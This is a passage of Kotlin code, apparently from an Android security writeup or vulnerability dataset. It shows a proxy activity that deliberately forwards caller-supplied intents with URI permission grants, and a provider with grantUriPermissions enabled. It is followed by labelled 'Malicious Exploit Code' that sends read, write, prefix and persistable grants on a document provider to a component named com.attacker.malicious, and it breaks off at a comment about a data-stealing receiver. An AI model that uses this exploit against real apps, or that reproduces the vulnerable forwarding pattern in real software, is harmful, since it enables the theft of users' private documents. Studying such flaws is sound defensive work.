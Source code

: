```kotlin
                            }
                            "FLAG_GRANT_WRITE_URI_PERMISSION" -> {
                                addFlags(Intent.FLAG_GRANT_WRITE_URI_PERMISSION)
                            }
                            "FLAG_GRANT_PERSISTABLE_URI_PERMISSION" -> {
                                addFlags(Intent.FLAG_GRANT_PERSISTABLE_URI_PERMISSION)
                            }
                        }
                    }
                }
            }
            
            // DANGEROUS: Execute workflow intent with URI permission grants
            startActivity(workflowIntent)
        } catch (e: Exception) {
            // Fallback: Try to grant permissions directly to calling package
            if (workflowIntent.data != null) {
                grantUriPermission(
                    callingActivity?.packageName,
                    workflowIntent.data!!,
                    Intent.FLAG_GRANT_READ_URI_PERMISSION or Intent.FLAG_GRANT_WRITE_URI_PERMISSION
                )
            }
        }
    }
}

// VULNERABLE: Non-exported provider with grant permissions enabled
<provider
    android:name=".providers.DocumentContentProvider"
    android:authorities="com.documentmanager.secure"
    android:exported="false"
    android:grantUriPermissions="true" />
```

**Malicious Exploit Code:**
```kotlin
// MALICIOUS: Exploit to gain URI permissions via proxy activity
class GrantUriExploit {
    fun exploitProxyActivity(context: Context) {
        // Create malicious workflow intent with URI permission flags
        val exploitPayload = JSONObject().apply {
            put("action", "android.intent.action.VIEW")
            put("data", "content://com.documentmanager.secure/documents")
            put("flags", JSONArray().apply {
                put("FLAG_GRANT_READ_URI_PERMISSION")
                put("FLAG_GRANT_WRITE_URI_PERMISSION")
                put("FLAG_GRANT_PREFIX_URI_PERMISSION")
                put("FLAG_GRANT_PERSISTABLE_URI_PERMISSION")
            })
            put("component", "com.attacker.malicious/.DataReceiver")
        }
        
        // Launch attack via IntentProcessorActivity
        val attackIntent = Intent().apply {
            setClassName("com.documentmanager", "com.documentmanager.IntentProcessorActivity")
            putExtra("workflow_intent", exploitPayload.toString())
        }
        
        context.startActivity(attackIntent)
    }
}

// MALICIOUS: Receiver that gets URI permissions and steals sensitive data
```